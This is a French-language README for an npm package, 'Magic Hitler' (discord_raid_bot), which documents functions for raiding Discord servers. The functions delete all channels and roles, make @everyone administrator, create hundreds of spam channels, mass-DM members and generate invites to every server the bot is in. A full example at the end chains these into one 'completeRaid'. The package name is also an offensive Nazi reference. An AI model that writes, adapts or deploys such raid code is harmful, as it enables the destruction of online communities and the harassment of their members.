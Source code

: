# Magic Hitler
# Discord Raid Bot
[![npm](https://img.shields.io/npm/v/magic_hitler.svg)](https://www.npmjs.com/package/magic_hitler)
[![npm](https://img.shields.io/badge/taille-27Ko-brightgreen.svg)](https://www.npmjs.com/package/magic_hitler)
[![github](https://img.shields.io/badge/Disponible%20sur-GitHub-red.svg)](https://github.com/JacqueSatan/Magic-Hitler-npm-module)
[![github](https://img.shields.io/badge/et-npm-yellow.svg)](https://www.npmjs.com/package/magic_hitler)
La mise en page n'est pas totalement prise en charge par GitHub, [cliquez ici](https://www.npmjs.com/package/magic_hitler lien vers npm) pour y voir plus clair.
## Sommaire
    1 - Installation
    2 - Utilisation
## 1 - Installation
Pour installer Discord Raid Bot, éxecutez simplement la commande 
```bash
npm install discord_raid_bot
```
dans le dossier de votre application Node.Js.
## 2 - Utilisation
Pour utiliser Discord Raid Bot, intégrez la ligne suivante à votre code :
```javascript
const raid = require('discord_raid_bot');
```





***
### raid.deleteAllChannels(client, trigger, createChannel)
Supprime tous les salons du serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| createChannel | boolean   | Crée un salon quand tous les autres sont supprimés si activé |
ex : 
```js
raid.deleteAllChannels(bot, "supprimer les salons", true);
```





***
### raid.createChannels(client, trigger, numberOfChannelsToCreate, nameOfChannelsToCreate, MessageToSpamInNewChannels, numberOfNotificationsPerChannel)
Supprime tous les salons du serveur puis en crée d'autres en spammant dedans.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| numberOfChannelsToCreate | int | Le nombre multiplié par 2 de salons qui seront créés dans le serveur |
| nameOfChannelsToCreate | string | Le nom des salons qui seront créés dans le serveur |
| MessageToSpamInNewChannels | string | Les messages qui seront envoyés dans chaque salon créé dans le serveur |
| numberOfNotificationsPerChannel | int | Nombre de messages envoyés dans chaque salon |
ex :
```js
raid.createChannels(bot, "créer des salons", 444, "salon-créé", "@everyone message envoyé", 3);
```





***
### raid.deleteRoles(client, trigger)
Supprime tous les rôles supprimables dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.deleteRoles(bot, "supprimer les rôles")
```





***
### raid.createRoles(client, trigger, nameOfRolesToCreate, NumberOfRolesToCreate)
Créer des rôles dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| nameOfRolesToCreate | string | Nom des rôles à créer |
| NumberOfRolesToCreate | int | Nombre de rôles à créér |
ex :
```js
raid.createRoles(bot, "créer des rôles", "nom des rôles", 42)
```





***
### raid.everyoneAdmin(client, trigger)
Rend le rôle @everyone administrateur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.everyoneAdmin(bot, "@everyone admin")
```





***
### raid.dmAllMembers(client, trigger, msg, numberOfMessages)
Contacte chaque membre du serveur par message privé.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| msg   | string    | Le message qui sera envoyé à chaque membre |
| numberOfMessages |    number |    Nombre de messages envoyés |
ex :
```js
raid.dmAllMembers(bot, "messages privés", "message envoyé", 15)
```




***
### raid.completeRaid(client, trigger, everyoneAdmin, deleteRoles, deleteChannels, createChannels, channelsName, channelsNumber, spamMessage, messagesNumber, createRoles, rolesName, rolesNumber)
Combine plusieurs attaques en une seule.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| everyoneAdmin  | boolean | Rend le rôle @everyone administrateur |
| deleteRoles | boolean | Supprime les rôles supprimables |
| deleteChannels | boolean | Supprime tous les salons |
| createChannels | boolean | Crée des salons pour y spammer |
| channelsName | string | Nom des salons créés |
| channelsNumber | number | Nombre de salons créés (max = 500) |
| spamMessage | string | Message spammé dans les nouveaux salons |
| messagesNumber | number | Nombre de messsages à envoyer |
| createRoles | boolean | Crée des rôles |
| rolesName | string | Nom des rôles à créer |
| RolesNumber | number | Nombre de rôles à créer (max = 250) |
ex :
```js
raid.completeRaid(bot, 'raid', true, true, true, true, 'nom-des-salons', 222, 'message spammé', 3000, true, 'nom des rôles', 30)
```




***
### raid.createInvite(client, trigger, allGuilds)
Crée une invitation pour un ou chacun des serveurs où le bot se trouve, puis vous l'envoie.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| allGuilds     | boolean   | Crée une invitation pour tous les serveurs |
ex :
```js
raid.createInvite(bot, "créer une invitation", true);
```





***
### raid.ready(client)
Affiche des informations sur le bot dè qu'il est prêt.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
ex :
```js
raid.ready(bot);
```





***
## Exemple complet

```js
const raid = require('discord_raid_bot');
const Discord = require('discord.js');
const bot = new Discord.Client();
const config = require('./config.json');

raid.ready(bot);
raid.deleteAllChannels(bot, "!suppr_chnls", true);
raid.createChannels(bot, "!spam_chnls", 222, "raid", "@everyone", 6);
raid.deleteRoles(bot, "!kill_rls");
raid.createRoles(bot, "!create_rls", 'raid', 25);
raid.completeRaid(bot, '!raid', true, true, true, true, 'raid', 222, '@everyone', 3000, true, 'raid', 30);
raid.dmAllMembers(bot, "!dm", "https://discord.gg/xxxxxx", 15);
raid.everyoneAdmin(bot, "!admin");
raid.createInvite(bot, "!inv", false);
raid.createInvite(bot, "!all-servs-inv", true); // On peut déclarer plusieurs configurations différentes

client.login(config.token);
```
Plus de 300 lignes de codes résumées en 10.
